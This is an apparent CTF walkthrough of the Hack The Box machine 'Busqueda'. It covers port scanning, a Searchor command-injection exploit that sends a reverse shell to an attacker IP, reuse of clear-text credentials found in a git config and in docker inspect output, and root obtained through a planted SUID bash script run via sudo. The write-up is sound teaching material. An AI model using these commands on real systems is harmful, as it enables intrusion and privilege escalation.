# [Busqueda](https://app.hackthebox.com/machines/Busqueda)


```bash
nmap -p- --min-rate 10000 10.10.11.208 -Pn
```



I see that ports (22,80) are open, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.208
```




While browsing http, it redirects into 'searcher.htb', let's add this domain into '**/etc/hosts**' file.


From bottom of application, I know tech stack of application.




I searched publicly known exploit, found Command Injection vulnerability.

I find already [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

```bash
bash exploit.sh searcher.htb 10.10.16.6 1337
```



I got reverse shell from port (1337).




Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




user.txt




I found a clear-text credentials in folder '/var/www/app/.git' and file called 'config'.




cody:jh1usoih2bkjaspwe92

I also see subdomain 'gitea.searcher.htb' and I add this into my '/etc/hosts' file.

After this I login into this page via grabbed credentials previously.




There is also password reusing, so it is also password of `svc` user on machine.

That's why we can look at privileges of `svc` user via `sudo -l` command.




But I cannot read this file due to permission problems.


This script is just run commands instead of normal bash.
```bash
sudo python3 /opt/scripts/system-checkup.py docker-ps
```




Let's look at `gitea` via `docker inspect` command.
```bash
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq .
```




I found clear-text password 'yuiu1hoiu4i5ho1uh' for `gitea`.


Let's login into `gitea` via this credentials.


administrator: yuiu1hoiu4i5ho1uh




I found really content of popular `system-checkup.py` script.




I will abuse this `full-checkup` condition of script via createing malicious `.sh` script which adds `SUID` binary for `svc` user.

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/dr4ks\nchmod 4777 /tmp/dr4ks' > full-checkup.sh
```

After coding this bash script, let's give privilege and run via `sudo` command.

```bash
chmod +x full-checkup.sh
sudo python3 /opt/scripts/system-checkup.py full-checkup
```



Let's look at privilege of this malicious created `bash` named as `dr4ks`. 




We can run this malicious bash shell (dr4ks).
```bash
/tmp/dr4ks -p
```

root.txt

